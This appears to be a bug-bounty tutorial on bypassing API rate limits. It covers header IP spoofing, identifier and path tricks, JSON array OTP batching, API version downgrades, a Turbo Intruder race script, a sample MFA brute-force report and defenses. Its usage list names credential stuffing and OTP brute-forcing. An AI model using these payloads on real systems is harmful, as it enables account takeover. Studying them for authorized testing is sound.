

# API Rate Limit Bypass Techniques

## When to Use
- When attempting to brute-force a 4-digit or 6-digit SMS/Email OTP (One Time Password) but the server blocks access after 5 attempts.
- When credential stuffing a login portal protected strictly by IP-based rate limiting (e.g., 10 logins per IP address per minute).
- When scraping excessive amounts of data from a public API endpoint before hitting a quota wall.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Bypassing IP-Based Rate Limiting

```text
# Concept: A WAF (Web Application Firewall) generally limits based on the client's IP address.
# If we can spoof our IP address using trusted Proxy metadata headers, the WAF may log the 
# spoofed IP instead of our actual IP, allowing infinite resets of the counter.

# 1. Trigger the block (HTTP 429 Too Many Requests)
# 2. Add/Iterate these HTTP headers using a Burp Intruder Payload (e.g., random IP lists):

X-Forwarded-For: 12.12.12.12
X-Forwarded-Host: 12.12.12.12
X-Client-IP: 12.12.12.12
X-Remote-IP: 12.12.12.12
X-Remote-Addr: 12.12.12.12
X-Originating-IP: 12.12.12.12
True-Client-IP: 12.12.12.12

# 3. Execution: If the server responds with HTTP 200 OK after injecting a new IP, 
# you have successfully bypassed the IP-based limitation. Automate injecting a random IP per request.
```

### Phase 2: Bypassing Account-Based Limiters (Path/JSON Manipulation)

```json
# Concept: If the rate limiter functions by tracking the specific identifier (the email or username) 
# rather than the IP address, we must alter the identifier *just enough* that the WAF registers 
# a new cache key, but the backend database query still hits the same user.

# Attempt 1: Case Sensitivity (Often the WAF is case-sensitive, DB is case-insensitive)
POST /login
{"email": "admin@target.com"} # Blocked after 5 tries
{"email": "AdMiN@target.com"} # WAF sees new string and allows. Backend DB ignores case and tests password.

# Attempt 2: Whitespace and Null bytes
{"email": "admin@target.com "} # Appending a space (Trimmed by backend)
{"email": "admin@target.com%00"}

# Attempt 3: Path manipulation (If endpoint is /api/v1/login)
POST /api/v1/login
POST /api/v1/login/
POST /api/v1//login
POST /api/v1/login?random=123
POST /api/v1/.../login
```

### Phase 3: The Array Payload Bypass (JSON Batching)

```json
# Concept: Many APIs are written in frameworks (like Spring Boot, Express, or Rails) that 
# accept input JSON parameters as an Array, rather than a String.

# The Flaw: The Rate Limiter inspects the SINGLE HTTP request, counting it as "1 attempt".
# The Backend Iterates the Array and tests ALL variables in that single request.

# 1. Blocked standard request:
POST /validate-otp
{"otp": "1234"}

# 2. Array Payload (Testing 100 OTPs in 1 request):
POST /validate-otp
{"otp": ["1234", "1235", "1236", "1237", ..., "9999"]}

# If the server responds indicating a success, the backend iterated the array, bypassing the 5-attempt WAF limiter perfectly!
```

### Phase 4: API Versioning Downgrades

```text
# Concept: Developers heavily secure `/api/v3/login` with strict Cloudflare rate limiting.
# They often forget to apply those specific WAF rules to `/api/v1/login` or mobile endpoints.

# Action: Change the URI path.
POST /api/v1/login
# OR target mobile subdomains:
POST /api/mobile/login
Host: m.target.com
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Encounter HTTP 429 Status] --> B{What is the WAF tracking?}
    B -->|Client IP Address| C[Inject X-Forwarded-For headers]
    B -->|Target ID / Email| D[Inject spaces, case-switching, and path modifiers]
    D --> E{Did the bypass work?}
    C --> E
    E -->|No| F[Attempt Array Payload Batching `[user1, user2]`]
    E -->|Yes| G[Automate exploitation via Burp Intruder]
    F -->|Blocked entirely| H[Test deprecated /v1/ API endpoints]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Defense-in-Depth Counting**: Rate limits must track BOTH the IP Address AND the specific requested entity (e.g., tracking the failed attempts strictly against the `user_id` record in a high-speed Redis cache before verifying the database).
- **Strict Header Validation**: Do not blindly trust `X-Forwarded-For` or `Client-IP` headers supplied by arbitrary internet traffic. Extract the true Client IP exclusively from the trusted Edge Load Balancer TCP socket metadata.
- **Strict Type Checking**: Validate incoming JSON payloads dynamically. If an endpoint expects an `otp` parameter as a String, strictly reject requests submitting array representations `[]` with an `HTTP 400 Bad Request`.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Rate Limiting | A strategy for limiting network traffic, restricting how often a client can repeat an action within a certain timeframe |
| OTP | One-Time Password; a numeric or alphanumeric code utilized to verify ownership of an asset. Due to their short length (4-6 digits), they are exceptionally vulnerable to brute-force if rate limiting fails |
| X-Forwarded-For | A de-facto standard header used for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or load balancer |

## Output Format
```
Bug Bounty Report: WAF Rate Limit Evasion leading to Account Takeover
=====================================================================
Vulnerability: Rate Limit Bypass via Header Manipulation
Severity: High (CVSS 7.5)
Target: POST /api/v2/auth/mfa/verify

Description:
The Multi-Factor Authentication (MFA) endpoint is protected by a rate limiter that issues an `HTTP 429 Too Many Requests` response after 5 failed 6-digit OTP attempts. However, the limitation exclusively monitors the `X-Forwarded-For` HTTP header maliciously supplied by the client, failing to track the failures at the account level.

By utilizing Burp Intruder alongside a script that rotates the `X-Forwarded-For` header with a randomly generated IP address upon every request, an attacker can submit infinite brute-force requests. Since a 6-digit pin possesses only 1,000,000 combinations, an attacker can systematically brute-force the victim's MFA token within approximately 24 hours.

Reproduction Steps:
1. Initiate the login flow and reach the MFA validation step.
2. Intercept the MFA submission request.
3. Add the `X-Forwarded-For: 1.1.1.1` header.
4. Send the request to Burp Intruder. Configure payload 1 to iterate '100000' to '999999'. Configure payload 2 to iterate random IP addresses generating a new string per request.
5. Initiate the attack. Observe infinite `HTTP 401 Unauthorized` responses without triggering an `HTTP 429` block, until the valid token is submitted.

Impact:
Critical failure of the MFA perimeter allowing complete bypass via automated brute-forcing.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (Race Conditions)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Stripe** | $5,000 | (Undisclosed) | Race condition → unlimited fee discounts on payment platform | 2024 |
| **HackerOne** | $2,500 | (Undisclosed) | Race condition in retest confirmation → multiple payments for single retest | 2025 |
| **HackerOne** | $250 | (Undisclosed) | Race condition → duplicate bounty payouts ($250 of $1K bounty duplicated) | 2024 |

**Key Lesson**: Stripe's $5K payout proves financial race conditions are high-value targets.
The HackerOne retest race condition is ironic — the security platform itself had a TOCTOU flaw.

**Turbo Intruder technique that works:**
```python
# Burp Turbo Intruder — single-packet attack for sub-millisecond race window
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=1, engine=Engine.BURP2)
    for i in range(30):
        engine.queue(target.req, gate='race')
    engine.openGate('race')
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [API4:2023 Unrestricted Resource Consumption](https://owasp.org/API-Security/editions/2023/en/0x11-i4-unrestricted-resource-consumption/)
- PayloadAllTheThings: [Race Condition & Rate Limiting Bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Race%20Condition)
- HackTricks: [Rate Limit Bypass Bounties](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)
